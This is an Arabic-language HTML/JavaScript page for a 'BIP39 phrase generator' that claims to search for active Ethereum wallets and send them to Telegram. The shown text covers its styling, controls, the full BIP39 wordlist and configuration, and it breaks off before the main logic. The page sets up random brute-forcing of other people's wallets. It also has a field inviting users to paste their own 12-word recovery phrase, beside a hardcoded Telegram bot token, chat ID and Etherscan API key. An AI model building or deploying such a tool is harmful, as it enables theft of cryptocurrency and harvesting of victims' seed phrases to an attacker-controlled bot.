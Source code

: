 بحبك 
<html lang="ar" dir="rtl">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>مولد عبارات BIP39 والبحث عن المحافظ النشطة</title>
    <style>
        /* تصميم واجهة المستخدم المتجاوبة */
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }

        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            min-height: 100vh;
            padding: 20px;
            direction: rtl;
            text-align: right;
        }

        .container {
            max-width: 800px;
            margin: 0 auto;
            background: rgba(255, 255, 255, 0.95);
            border-radius: 20px;
            box-shadow: 0 20px 40px rgba(0, 0, 0, 0.1);
            overflow: hidden;
            backdrop-filter: blur(10px);
        }

        .header {
            background: linear-gradient(135deg, #4facfe 0%, #00f2fe 100%);
            color: white;
            padding: 30px;
            text-align: center;
        }

        .header h1 {
            font-size: 2.5rem;
            margin-bottom: 10px;
            font-weight: 700;
        }

        .header p {
            font-size: 1.1rem;
            opacity: 0.9;
        }

        .main-content {
            padding: 40px;
        }

        .control-panel {
            background: #f8f9fa;
            border-radius: 15px;
            padding: 30px;
            margin-bottom: 30px;
            border: 1px solid #e9ecef;
        }

        .control-group {
            margin-bottom: 25px;
        }

        .control-group label {
            display: block;
            font-weight: 600;
            margin-bottom: 8px;
            color: #495057;
            font-size: 1rem;
        }

        .control-group input,
        .control-group select,
        .control-group textarea {
            width: 100%;
            padding: 12px 15px;
            border: 2px solid #dee2e6;
            border-radius: 10px;
            font-size: 1rem;
            transition: all 0.3s ease;
            background: white;
        }

        .control-group input:focus,
        .control-group select:focus,
        .control-group textarea:focus {
            outline: none;
            border-color: #4facfe;
            box-shadow: 0 0 0 3px rgba(79, 172, 254, 0.1);
        }

        .button-group {
            display: flex;
            gap: 15px;
            flex-wrap: wrap;
            justify-content: center;
            margin-top: 30px;
        }

        .btn {
            padding: 15px 30px;
            border: none;
            border-radius: 10px;
            font-size: 1rem;
            font-weight: 600;
            cursor: pointer;
            transition: all 0.3s ease;
            text-decoration: none;
            display: inline-flex;
            align-items: center;
            justify-content: center;
            gap: 8px;
            min-width: 150px;
        }

        .btn-primary {
            background: linear-gradient(135deg, #4facfe 0%, #00f2fe 100%);
            color: white;
        }

        .btn-primary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(79, 172, 254, 0.3);
        }

        .btn-success {
            background: linear-gradient(135deg, #56ab2f 0%, #a8e6cf 100%);
            color: white;
        }

        .btn-success:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(86, 171, 47, 0.3);
        }

        .btn-danger {
            background: linear-gradient(135deg, #ff416c 0%, #ff4b2b 100%);
            color: white;
        }

        .btn-danger:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 65, 108, 0.3);
        }

        .btn-secondary {
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
        }

        .btn-secondary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(102, 126, 234, 0.3);
        }

        .btn-warning {
            background: linear-gradient(135deg, #ff9a00 0%, #ffcc00 100%);
            color: white;
        }

        .btn-warning:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 154, 0, 0.3);
        }

        .btn:disabled {
            opacity: 0.6;
            cursor: not-allowed;
            transform: none !important;
            box-shadow: none !important;
        }

        .status-panel {
            background: white;
            border-radius: 15px;
            padding: 25px;
            margin-bottom: 25px;
            border: 1px solid #e9ecef;
        }

        .status-panel h3 {
            color: #495057;
            margin-bottom: 20px;
            font-size: 1.3rem;
        }

        .status-grid {
            display: grid;
            grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
            gap: 20px;
            margin-bottom: 20px;
        }

        .status-card {
            background: #f8f9fa;
            padding: 20px;
            border-radius: 10px;
            text-align: center;
            border: 1px solid #e9ecef;
        }

        .status-card .number {
            font-size: 2rem;
            font-weight: 700;
            color: #4facfe;
            margin-bottom: 5px;
        }

        .status-card .label {
            color: #6c757d;
            font-size: 0.9rem;
        }

        .progress-bar {
            width: 100%;
            height: 8px;
            background: #e9ecef;
            border-radius: 4px;
            overflow: hidden;
            margin: 15px 0;
        }

        .progress-fill {
            height: 100%;
            background: linear-gradient(90deg, #4facfe 0%, #00f2fe 100%);
            width: 0%;
            transition: width 0.3s ease;
        }

        .log-panel {
            background: #212529;
            color: #ffffff;
            border-radius: 15px;
            padding: 20px;
            margin-top: 25px;
            max-height: 300px;
            overflow-y: auto;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            line-height: 1.4;
        }

        .log-entry {
            margin-bottom: 8px;
            padding: 5px 0;
            border-bottom: 1px solid #343a40;
        }

        .log-entry:last-child {
            border-bottom: none;
        }

        .log-timestamp {
            color: #6c757d;
            font-size: 0.8rem;
        }

        .log-success {
            color: #28a745;
        }

        .log-error {
            color: #dc3545;
        }

        .log-info {
            color: #17a2b8;
        }

        .wallet-display {
            background: #f8f9fa;
            border: 1px solid #dee2e6;
            border-radius: 10px;
            padding: 20px;
            margin: 15px 0;
            word-break: break-all;
        }

        .wallet-display .mnemonic {
            background: #e9ecef;
            padding: 15px;
            border-radius: 8px;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            margin-bottom: 10px;
        }

        .wallet-display .address {
            color: #495057;
            font-family: 'Courier New', monospace;
            font-size: 0.8rem;
        }

        .loading-spinner {
            display: inline-block;
            width: 20px;
            height: 20px;
            border: 3px solid rgba(255, 255, 255, 0.3);
            border-radius: 50%;
            border-top-color: #fff;
            animation: spin 1s ease-in-out infinite;
        }

        @keyframes spin {
            to { transform: rotate(360deg); }
        }

        .alert {
            padding: 15px 20px;
            border-radius: 10px;
            margin: 15px 0;
            font-weight: 500;
        }

        .alert-success {
            background: #d4edda;
            color: #155724;
            border: 1px solid #c3e6cb;
        }

        .alert-danger {
            background: #f8d7da;
            color: #721c24;
            border: 1px solid #f5c6cb;
        }

        .alert-info {
            background: #d1ecf1;
            color: #0c5460;
            border: 1px solid #bee5eb;
        }

        .alert-warning {
            background: #fff3cd;
            color: #856404;
            border: 1px solid #ffeaa7;
        }

        /* تصميم متجاوب للهواتف المحمولة */
        @media (max-width: 768px) {
            body {
                padding: 10px;
            }
            
            .header h1 {
                font-size: 2rem;
            }
            
            .header p {
                font-size: 1rem;
            }
            
            .main-content {
                padding: 20px;
            }
            
            .control-panel {
                padding: 20px;
            }
            
            .button-group {
                flex-direction: column;
            }
            
            .btn {
                width: 100%;
                min-width: auto;
            }
            
            .status-grid {
                grid-template-columns: repeat(2, 1fr);
                gap: 15px;
            }
            
            .status-card .number {
                font-size: 1.5rem;
            }
            
            .log-panel {
                font-size: 0.8rem;
                max-height: 200px;
            }
        }

        @media (max-width: 480px) {
            .header {
                padding: 20px;
            }
            
            .header h1 {
                font-size: 1.8rem;
            }
            
            .main-content {
                padding: 15px;
            }
            
            .control-panel {
                padding: 15px;
            }
            
            .status-grid {
                grid-template-columns: 1fr;
            }
            
            .status-card {
                padding: 15px;
            }
            
            .wallet-display .mnemonic {
                font-size: 0.8rem;
                padding: 10px;
            }
        }

        .fade-in {
            animation: fadeIn 0.5s ease-in;
        }

        @keyframes fadeIn {
            from { opacity: 0; transform: translateY(20px); }
            to { opacity: 1; transform: translateY(0); }
        }

        .log-panel::-webkit-scrollbar {
            width: 8px;
        }

        .log-panel::-webkit-scrollbar-track {
            background: #343a40;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb {
            background: #6c757d;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb:hover {
            background: #adb5bd;
        }

        .test-result {
            background: #f8f9fa;
            border-radius: 10px;
            padding: 20px;
            margin-top: 15px;
            border-left: 5px solid #4facfe;
        }

        .test-result.active {
            border-left-color: #28a745;
        }

        .test-result.inactive {
            border-left-color: #dc3545;
        }

        .test-result h4 {
            margin-bottom: 10px;
            color: #495057;
        }

        .test-result .balance {
            font-size: 1.2rem;
            font-weight: bold;
            margin: 10px 0;
        }

        .test-result .balance.positive {
            color: #28a745;
        }

        .test-result .balance.zero {
            color: #6c757d;
        }

        .test-result .transactions {
            margin: 10px 0;
        }

        .test-result .status {
            padding: 5px 10px;
            border-radius: 5px;
            font-weight: bold;
            display: inline-block;
        }

        .test-result .status.active {
            background: #d4edda;
            color: #155724;
        }

        .test-result .status.inactive {
            background: #f8d7da;
            color: #721c24;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="header">
            <h1>🔑 مولد عبارات BIP39</h1>
            <p>البحث عن المحافظ النشطة وإرسالها إلى Telegram</p>
        </div>

        <div class="main-content">
            <div class="control-panel">
                <div class="control-group">
                    <label for="searchSpeed">سرعة البحث (مللي ثانية بين كل عبارة):</label>
                    <input type="number" id="searchSpeed" value="2000" min="1000" max="10000" step="500">
                </div>

                <div class="control-group">
                    <label for="maxAttempts">الحد الأقصى للمحاولات (0 = لا نهاية):</label>
                    <input type="number" id="maxAttempts" value="0" min="0" max="10000">
                </div>

                <div class="button-group">
                    <button id="startBtn" class="btn btn-success">
                        <span>🚀 بدء البحث</span>
                    </button>
                    <button id="stopBtn" class="btn btn-danger" disabled>
                        <span>⏹️ إيقاف البحث</span>
                    </button>
                    <button id="testTelegramBtn" class="btn btn-secondary">
                        <span>📱 اختبار Telegram</span>
                    </button>
                    <button id="clearLogsBtn" class="btn btn-primary">
                        <span>🗑️ مسح السجل</span>
                    </button>
                </div>
            </div>

            <!-- قسم جديد لاختبار العبارات يدويًا -->
            <div class="control-panel">
                <h3>🔍 اختبار عبارة BIP39 يدويًا</h3>
                <div class="control-group">
                    <label for="manualMnemonic">أدخل عبارة BIP39 (12 كلمة):</label>
                    <textarea id="manualMnemonic" rows="3" placeholder="أدخل عبارة الاسترجاع المكونة من 12 كلمة هنا..."></textarea>
                </div>
                <div class="button-group">
                    <button id="testManualBtn" class="btn btn-warning">
                        <span>🔍 فحص العبارة</span>
                    </button>
                </div>
                <div id="manualTestResult" class="test-result" style="display: none;">
                    <!-- سيتم ملؤه ديناميكيًا -->
                </div>
            </div>

            <div class="status-panel">
                <h3>📊 إحصائيات العملية</h3>
                <div class="status-grid">
                    <div class="status-card">
                        <div class="number" id="totalGenerated">0</div>
                        <div class="label">إجمالي العبارات</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="activeWallets">0</div>
                        <div class="label">المحافظ النشطة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="emptyWallets">0</div>
                        <div class="label">المحافظ الفارغة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="errorCount">0</div>
                        <div class="label">الأخطاء</div>
                    </div>
                </div>
                <div class="progress-bar">
                    <div class="progress-fill" id="progressFill"></div>
                </div>
                <div id="currentStatus" class="alert alert-info">
                    جاهز للبدء...
                </div>
            </div>

            <div class="log-panel" id="logPanel">
                <div class="log-entry log-info">
                    <span class="log-timestamp">[${new Date().toLocaleTimeString('ar-EG')}]</span>
                    مرحباً بك في مولد عبارات BIP39. اضغط على "بدء البحث" للبدء.
                </div>
            </div>
        </div>
    </div>

    <!-- تحميل مكتبة ethers.js من CDN مختلف -->
    <script src="https://cdn.jsdelivr.net/npm/ethers@5.7.2/dist/ethers.umd.min.js"></script>

    <script>
        // قائمة كلمات BIP39 الإنجليزية الرسمية
        const BIP39_WORDLIST = [
            "abandon", "ability", "able", "about", "above", "absent", "absorb", "abstract", "absurd", "abuse",
            "access", "accident", "account", "accuse", "achieve", "acid", "acoustic", "acquire", "across", "act",
            "action", "actor", "actress", "actual", "adapt", "add", "addict", "address", "adjust", "admit",
            "adult", "advance", "advice", "aerobic", "affair", "affect", "afford", "afraid", "after", "again",
            "age", "agent", "agree", "ahead", "aim", "air", "airport", "aisle", "alarm", "album",
            "alcohol", "alert", "alien", "all", "alley", "allow", "almost", "alone", "alpha", "already",
            "also", "alter", "always", "amateur", "amazing", "among", "amount", "amused", "analyst", "anchor",
            "ancient", "anger", "angle", "angry", "animal", "announce", "annual", "another", "answer", "antenna",
            "antique", "anxiety", "any", "apart", "apology", "appear", "apple", "approve", "april", "area",
            "arena", "argue", "arm", "armed", "armor", "army", "around", "arrange", "arrest", "arrive",
            "arrow", "art", "artefact", "artist", "artwork", "ask", "aspect", "assault", "asset", "assist",
            "assume", "asthma", "athlete", "atom", "attack", "attend", "attitude", "attract", "auction", "audit",
            "august", "aunt", "author", "auto", "autumn", "average", "avocado", "avoid", "awake", "aware",
            "away", "awesome", "awful", "awkward", "axis", "baby", "bachelor", "bacon", "badge", "bag",
            "balance", "balcony", "ball", "bamboo", "banana", "banner", "bar", "barely", "bargain", "barrel",
            "base", "basic", "basket", "battle", "beach", "bean", "beauty", "because", "become", "beef",
            "before", "begin", "behave", "behind", "believe", "below", "belt", "bench", "benefit", "best",
            "betray", "better", "between", "beyond", "bicycle", "bid", "bike", "bind", "biology", "bird",
            "birth", "bitter", "black", "blade", "blame", "blanket", "blast", "bleak", "bless", "blind",
            "blood", "blossom", "blouse", "blue", "blur", "blush", "board", "boat", "body", "boil",
            "bomb", "bone", "bonus", "book", "boost", "border", "boring", "borrow", "boss", "bottom",
            "bounce", "box", "boy", "bracket", "brain", "brand", "brass", "brave", "bread", "breeze",
            "brick", "bridge", "brief", "bright", "bring", "brisk", "broccoli", "broken", "bronze", "broom",
            "brother", "brown", "brush", "bubble", "buddy", "budget", "buffalo", "build", "bulb", "bulk",
            "bullet", "bundle", "bunker", "burden", "burger", "burst", "bus", "business", "busy", "butter",
            "buyer", "buzz", "cabbage", "cabin", "cable", "cactus", "cage", "cake", "call", "calm",
            "camera", "camp", "can", "canal", "cancel", "candy", "cannon", "canoe", "canvas", "canyon",
            "capable", "capital", "captain", "car", "carbon", "card", "cargo", "carpet", "carry", "cart",
            "case", "cash", "casino", "castle", "casual", "cat", "catalog", "catch", "category", "cattle",
            "caught", "cause", "caution", "cave", "ceiling", "celery", "cement", "census", "century", "ceremony",
            "certain", "chair", "chalk", "champion", "change", "chaos", "chapter", "charge", "chase", "chat",
            "cheap", "check", "cheek", "cheese", "chef", "cherry", "chest", "chicken", "chief", "child",
            "chimney", "choice", "choose", "chronic", "chuckle", "chunk", "churn", "cigar", "cinnamon", "circle",
            "citizen", "city", "civil", "claim", "clap", "clarify", "claw", "clay", "clean", "clerk",
            "clever", "click", "client", "cliff", "climb", "clinic", "clip", "clock", "clog", "close",
            "cloth", "cloud", "clown", "club", "clump", "cluster", "clutch", "coach", "coast", "coconut",
            "code", "coffee", "coil", "coin", "collect", "color", "column", "combine", "come", "comfort",
            "comic", "common", "company", "concert", "conduct", "confirm", "congress", "connect", "consider", "control",
            "convince", "cook", "cool", "copper", "copy", "coral", "core", "corn", "correct", "cost",
            "cotton", "couch", "country", "couple", "course", "cousin", "cover", "coyote", "crack", "cradle",
            "craft", "cram", "crane", "crash", "crater", "crawl", "crazy", "cream", "credit", "creek",
            "crew", "cricket", "crime", "crisp", "critic", "crop", "cross", "crouch", "crowd", "crucial",
            "cruel", "cruise", "crumble", "crunch", "crush", "cry", "crystal", "cube", "culture", "cup",
            "cupboard", "curious", "current", "curtain", "curve", "cushion", "custom", "cute", "cycle", "dad",
            "damage", "damp", "dance", "danger", "daring", "dark", "dash", "date", "daughter", "dawn",
            "day", "deal", "debate", "debris", "decade", "december", "decide", "decline", "decorate", "decrease",
            "deer", "defense", "define", "defy", "degree", "delay", "deliver", "demand", "demise", "denial",
            "dentist", "deny", "depart", "depend", "deposit", "depth", "deputy", "derive", "describe", "desert",
            "design", "desk", "despair", "destroy", "detail", "detect", "develop", "device", "devote", "diagram",
            "dial", "diamond", "diary", "dice", "diesel", "diet", "differ", "digital", "dignity", "dilemma",
            "dinner", "dinosaur", "direct", "dirt", "disagree", "discover", "disease", "dish", "dismiss", "disorder",
            "display", "distance", "divert", "divide", "divorce", "dizzy", "doctor", "document", "dog", "doll",
            "dolphin", "domain", "donate", "donkey", "donor", "door", "dose", "double", "dove", "draft",
            "dragon", "drama", "drastic", "draw", "dream", "dress", "drift", "drill", "drink", "drip",
            "drive", "drop", "drum", "dry", "duck", "dumb", "dune", "during", "dust", "dutch",
            "duty", "dwarf", "dynamic", "eager", "eagle", "early", "earn", "earth", "easily", "east",
            "easy", "echo", "ecology", "economy", "edge", "edit", "educate", "effort", "egg", "eight",
            "either", "elbow", "elder", "electric", "elegant", "element", "elephant", "elevator", "elite", "else",
            "embark", "embody", "embrace", "emerge", "emotion", "employ", "empower", "empty", "enable", "enact",
            "end", "endless", "endorse", "enemy", "energy", "enforce", "engage", "engine", "enhance", "enjoy",
            "enlist", "enough", "enrich", "enroll", "ensure", "enter", "entire", "entry", "envelope", "episode",
            "equal", "equip", "era", "erase", "erode", "erosion", "error", "erupt", "escape", "essay",
            "essence", "estate", "eternal", "ethics", "evidence", "evil", "evoke", "evolve", "exact", "example",
            "excess", "exchange", "excite", "exclude", "excuse", "execute", "exercise", "exhaust", "exhibit", "exile",
            "exist", "exit", "exotic", "expand", "expect", "expire", "explain", "expose", "express", "extend",
            "extra", "eye", "eyebrow", "fabric", "face", "faculty", "fade", "faint", "faith", "fall",
            "false", "fame", "family", "famous", "fan", "fancy", "fantasy", "farm", "fashion", "fat",
            "fatal", "father", "fatigue", "fault", "favorite", "feature", "february", "federal", "fee", "feed",
            "feel", "female", "fence", "festival", "fetch", "fever", "few", "fiber", "fiction", "field",
            "figure", "file", "film", "filter", "final", "find", "fine", "finger", "finish", "fire",
            "firm", "first", "fiscal", "fish", "fit", "fitness", "fix", "flag", "flame", "flash",
            "flat", "flavor", "flee", "flight", "flip", "float", "flock", "floor", "flower", "fluid",
            "flush", "fly", "foam", "focus", "fog", "foil", "fold", "follow", "food", "foot",
            "force", "foreign", "forest", "forget", "fork", "fortune", "forum", "forward", "fossil", "foster",
            "found", "fox", "fragile", "frame", "frequent", "fresh", "friend", "fringe", "frog", "front",
            "frost", "frown", "frozen", "fruit", "fuel", "fun", "funny", "furnace", "fury", "future",
            "gadget", "gain", "galaxy", "gallery", "game", "gap", "garage", "garbage", "garden", "garlic",
            "garment", "gas", "gasp", "gate", "gather", "gauge", "gaze", "general", "genius", "genre",
            "gentle", "genuine", "gesture", "ghost", "giant", "gift", "giggle", "ginger", "giraffe", "girl",
            "give", "glad", "glance", "glare", "glass", "glide", "glimpse", "globe", "gloom", "glory",
            "glove", "glow", "glue", "goat", "goddess", "gold", "good", "goose", "gorilla", "gospel",
            "gossip", "govern", "gown", "grab", "grace", "grain", "grant", "grape", "grass", "gravity",
            "great", "green", "grid", "grief", "grit", "grocery", "group", "grow", "grunt", "guard",
            "guess", "guide", "guilt", "guitar", "gun", "gym", "habit", "hair", "half", "hammer",
            "hamster", "hand", "happy", "harbor", "hard", "harsh", "harvest", "hat", "have", "hawk",
            "hazard", "head", "health", "heart", "heavy", "hedgehog", "height", "hello", "helmet", "help",
            "hen", "hero", "hidden", "high", "hill", "hint", "hip", "hire", "history", "hobby",
            "hockey", "hold", "hole", "holiday", "hollow", "home", "honey", "hood", "hope", "horn",
            "horror", "horse", "hospital", "host", "hotel", "hour", "hover", "hub", "huge", "human",
            "humble", "humor", "hundred", "hungry", "hunt", "hurdle", "hurry", "hurt", "husband", "hybrid",
            "ice", "icon", "idea", "identify", "idle", "ignore", "ill", "illegal", "illness", "image",
            "imitate", "immense", "immune", "impact", "impose", "improve", "impulse", "inch", "include", "income",
            "increase", "index", "indicate", "indoor", "industry", "infant", "inflict", "inform", "inhale", "inherit",
            "initial", "inject", "injury", "inmate", "inner", "innocent", "input", "inquiry", "insane", "insect",
            "inside", "inspire", "install", "intact", "interest", "into", "invest", "invite", "involve", "iron",
            "island", "isolate", "issue", "item", "ivory", "jacket", "jaguar", "jar", "jazz", "jealous",
            "jeans", "jelly", "jewel", "job", "join", "joke", "journey", "joy", "judge", "juice",
            "jump", "jungle", "junior", "junk", "just", "kangaroo", "keen", "keep", "ketchup", "key",
            "kick", "kid", "kidney", "kind", "kingdom", "kiss", "kit", "kitchen", "kite", "kitten",
            "kiwi", "knee", "knife", "knock", "know", "lab", "label", "labor", "ladder", "lady",
            "lake", "lamp", "language", "laptop", "large", "later", "latin", "laugh", "laundry", "lava",
            "law", "lawn", "lawsuit", "layer", "lazy", "leader", "leaf", "learn", "leave", "lecture",
            "left", "leg", "legal", "legend", "leisure", "lemon", "lend", "length", "lens", "leopard",
            "lesson", "letter", "level", "liar", "liberty", "library", "license", "life", "lift", "light",
            "like", "limb", "limit", "link", "lion", "liquid", "list", "little", "live", "lizard",
            "load", "loan", "lobster", "local", "lock", "logic", "lonely", "long", "loop", "lottery",
            "loud", "lounge", "love", "loyal", "lucky", "luggage", "lumber", "lunar", "lunch", "luxury",
            "lyrics", "machine", "mad", "magic", "magnet", "maid", "mail", "main", "major", "make",
            "mammal", "man", "manage", "mango", "mansion", "manual", "maple", "marble", "march", "margin",
            "marine", "market", "marriage", "mask", "mass", "master", "match", "material", "math", "matrix",
            "matter", "maximum", "maze", "meadow", "mean", "measure", "meat", "mechanic", "medal", "media",
            "melody", "melt", "member", "memory", "mention", "menu", "mercy", "merge", "merit", "merry",
            "mesh", "message", "metal", "method", "middle", "midnight", "milk", "million", "mimic", "mind",
            "minimum", "minor", "minute", "miracle", "mirror", "misery", "miss", "mistake", "mix", "mixed",
            "mixture", "mobile", "model", "modify", "mom", "moment", "monitor", "monkey", "monster", "month",
            "moon", "moral", "more", "morning", "mosquito", "mother", "motion", "motor", "mountain", "mouse",
            "move", "movie", "much", "muffin", "mule", "multiply", "muscle", "museum", "mushroom", "music",
            "must", "mutual", "myself", "mystery", "myth", "naive", "name", "napkin", "narrow", "nasty",
            "nation", "nature", "near", "neck", "need", "negative", "neglect", "neither", "nephew", "nerve",
            "nest", "net", "network", "neutral", "never", "news", "next", "nice", "night", "noble",
            "noise", "nominee", "noodle", "normal", "north", "nose", "notable", "note", "nothing", "notice",
            "novel", "now", "nuclear", "number", "nurse", "nut", "oak", "obey", "object", "oblige",
            "obscure", "observe", "obtain", "obvious", "occur", "ocean", "october", "odor", "off", "offer",
            "office", "often", "oil", "okay", "old", "olive", "olympic", "omit", "once", "one",
            "onion", "online", "only", "open", "opera", "opinion", "oppose", "option", "orange", "orbit",
            "orchard", "order", "ordinary", "organ", "orient", "original", "orphan", "ostrich", "other", "outdoor",
            "outer", "output", "outside", "oval", "oven", "over", "own", "owner", "oxygen", "oyster",
            "ozone", "pact", "paddle", "page", "pair", "palace", "palm", "panda", "panel", "panic",
            "panther", "paper", "parade", "parent", "park", "parrot", "party", "pass", "patch", "path",
            "patient", "patrol", "pattern", "pause", "pave", "payment", "peace", "peanut", "pear", "peasant",
            "pelican", "pen", "penalty", "pencil", "people", "pepper", "perfect", "permit", "person", "pet",
            "phone", "photo", "phrase", "physical", "piano", "picnic", "picture", "piece", "pig", "pigeon",
            "pill", "pilot", "pink", "pioneer", "pipe", "pistol", "pitch", "pizza", "place", "planet",
            "plastic", "plate", "play", "player", "pleasure", "pledge", "pluck", "plug", "plunge", "poem",
            "poet", "point", "polar", "pole", "police", "pond", "pony", "pool", "popular", "portion",
            "position", "possible", "post", "potato", "pottery", "poverty", "powder", "power", "practice", "praise",
            "predict", "prefer", "prepare", "present", "pretty", "prevent", "price", "pride", "primary", "print",
            "priority", "prison", "private", "prize", "problem", "process", "produce", "profit", "program", "project",
            "promote", "proof", "property", "prosper", "protect", "proud", "provide", "public", "pudding", "pull",
            "pulp", "pulse", "pumpkin", "punch", "pupil", "puppy", "purchase", "purity", "purpose", "purse",
            "push", "put", "puzzle", "pyramid", "quality", "quantum", "quarter", "question", "quick", "quit",
            "quiz", "quote", "rabbit", "raccoon", "race", "rack", "radar", "radio", "rail", "rain",
            "raise", "rally", "ramp", "ranch", "random", "range", "rapid", "rare", "rate", "rather",
            "raven", "raw", "razor", "ready", "real", "reason", "rebel", "rebuild", "recall", "receive",
            "recipe", "record", "recycle", "reduce", "reflect", "reform", "refuse", "region", "regret", "regular",
            "reject", "relax", "release", "relief", "rely", "remain", "remember", "remind", "remove", "render",
            "renew", "rent", "reopen", "repair", "repeat", "replace", "report", "require", "rescue", "resemble",
            "resist", "resource", "response", "result", "retire", "retreat", "return", "reunion", "reveal", "review",
            "reward", "rhythm", "rib", "ribbon", "rice", "rich", "ride", "ridge", "rifle", "right",
            "rigid", "ring", "riot", "ripple", "risk", "ritual", "rival", "river", "road", "roast",
            "robot", "robust", "rocket", "romance", "roof", "rookie", "room", "rose", "rotate", "rough",
            "round", "route", "royal", "rubber", "rude", "rug", "rule", "run", "runway", "rural",
            "sad", "saddle", "sadness", "safe", "sail", "salad", "salmon", "salon", "salt", "same",
            "sample", "sand", "satisfy", "satoshi", "sauce", "sausage", "save", "say", "scale", "scan",
            "scare", "scatter", "scene", "scheme", "school", "science", "scissors", "scorpion", "scout", "scrap",
            "screen", "script", "scrub", "sea", "search", "season", "seat", "second", "secret", "section",
            "security", "seed", "seek", "segment", "select", "sell", "seminar", "senior", "sense", "sentence",
            "series", "service", "session", "settle", "setup", "seven", "shadow", "shaft", "shallow", "share",
            "shed", "shell", "sheriff", "shield", "shift", "shine", "ship", "shiver", "shock", "shoe",
            "shoot", "shop", "short", "shoulder", "shove", "shrimp", "shrug", "shuffle", "shy", "sibling",
            "sick", "side", "siege", "sight", "sign", "silent", "silk", "silly", "silver", "similar",
            "simple", "since", "sing", "siren", "sister", "situate", "six", "size", "skate", "sketch",
            "ski", "skill", "skin", "skirt", "skull", "slab", "slam", "sleep", "slender", "slice",
            "slide", "slight", "slim", "slogan", "slot", "slow", "slush", "small", "smart", "smile",
            "smoke", "smooth", "snack", "snake", "snap", "sniff", "snow", "soap", "soccer", "social",
            "sock", "soda", "soft", "solar", "soldier", "solid", "solution", "solve", "someone", "song",
            "soon", "sorry", "sort", "soul", "sound", "soup", "source", "south", "space", "spare",
            "spatial", "spawn", "speak", "special", "speed", "spell", "spend", "sphere", "spice", "spider",
            "spike", "spin", "spirit", "split", "spoil", "sponsor", "spoon", "sport", "spot", "spray",
            "spread", "spring", "spy", "square", "squeeze", "squirrel", "stable", "stadium", "staff", "stage",
            "stairs", "stamp", "stand", "start", "state", "stay", "steak", "steel", "stem", "step",
            "stereo", "stick", "still", "sting", "stock", "stomach", "stone", "stool", "story", "stove",
            "strategy", "street", "strike", "strong", "struggle", "student", "stuff", "stumble", "style", "subject",
            "submit", "subway", "success", "such", "sudden", "suffer", "sugar", "suggest", "suit", "summer",
            "sun", "sunny", "sunset", "super", "supply", "support", "sure", "surface", "surge", "surprise",
            "surround", "survey", "suspect", "sustain", "swallow", "swamp", "swap", "swarm", "swear", "sweet",
            "swift", "swim", "swing", "switch", "sword", "symbol", "symptom", "syrup", "system", "table",
            "tackle", "tag", "tail", "talent", "talk", "tank", "tape", "target", "task", "taste",
            "tattoo", "taxi", "teach", "team", "tell", "ten", "tenant", "tennis", "tent", "term",
            "test", "text", "thank", "that", "theme", "then", "theory", "there", "they", "thing",
            "this", "thought", "three", "thrive", "throw", "thumb", "thunder", "ticket", "tide", "tiger",
            "tilt", "timber", "time", "tiny", "tip", "tired", "tissue", "title", "toast", "tobacco",
            "today", "toddler", "toe", "together", "toilet", "token", "tomato", "tomorrow", "tone", "tongue",
            "tonight", "tool", "tooth", "top", "topic", "topple", "torch", "tornado", "tortoise", "toss",
            "total", "tourist", "toward", "tower", "town", "toy", "track", "trade", "traffic", "tragic",
            "train", "transfer", "trap", "trash", "travel", "tray", "treat", "tree", "trend", "trial",
            "tribe", "trick", "trigger", "trim", "trip", "trophy", "trouble", "truck", "true", "truly",
            "trumpet", "trust", "truth", "try", "tube", "tuition", "tumble", "tuna", "tunnel", "turkey",
            "turn", "turtle", "twelve", "twenty", "twice", "twin", "twist", "two", "type", "typical",
            "ugly", "umbrella", "unable", "unaware", "uncle", "uncover", "under", "undo", "unfair", "unfold",
            "unhappy", "uniform", "unique", "unit", "universe", "unknown", "unlock", "until", "unusual", "unveil",
            "update", "upgrade", "uphold", "upon", "upper", "upset", "urban", "urge", "usage", "use",
            "used", "useful", "useless", "usual", "utility", "vacant", "vacuum", "vague", "valid", "valley",
            "valve", "van", "vanish", "vapor", "various", "vast", "vault", "vehicle", "velvet", "vendor",
            "venture", "venue", "verb", "verify", "version", "very", "vessel", "veteran", "viable", "vibrant",
            "vicious", "victory", "video", "view", "village", "vintage", "violin", "virtual", "virus", "visa",
            "visit", "visual", "vital", "vivid", "vocal", "voice", "void", "volcano", "volume", "vote",
            "voyage", "wage", "wagon", "wait", "walk", "wall", "walnut", "want", "warfare", "warm",
            "warrior", "wash", "wasp", "waste", "water", "wave", "way", "wealth", "weapon", "weary",
            "weather", "web", "wedding", "weekend", "weird", "welcome", "west", "wet", "whale", "what",
            "wheat", "wheel", "when", "where", "whip", "whisper", "wide", "width", "wife", "wild",
            "will", "win", "window", "wine", "wing", "wink", "winner", "winter", "wire", "wisdom",
            "wise", "wish", "witness", "wolf", "woman", "wonder", "wood", "wool", "word", "work",
            "world", "worry", "worth", "wrap", "wreck", "wrestle", "wrist", "write", "wrong", "yard",
            "year", "yellow", "you", "young", "youth", "zebra", "zero", "zone", "zoo"
        ];

        // إعدادات التطبيق
        const ETHEREUM_API_KEY = 'ZTX93YC56F73T2W58IKS6GWWDH8UDRGBFK';
        const ETHEREUM_API_URL = `https://api.etherscan.io/api?apikey=${ETHEREUM_API_KEY}`;
        const TELEGRAM_BOT_TOKEN = '8257110214:AAFDx0awsmi7yjz6tCZqVY2jS5BZmygvQKw';
        const TELEGRAM_CHAT_ID = '910021564';
        const TELEGRAM_API_URL = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}`;

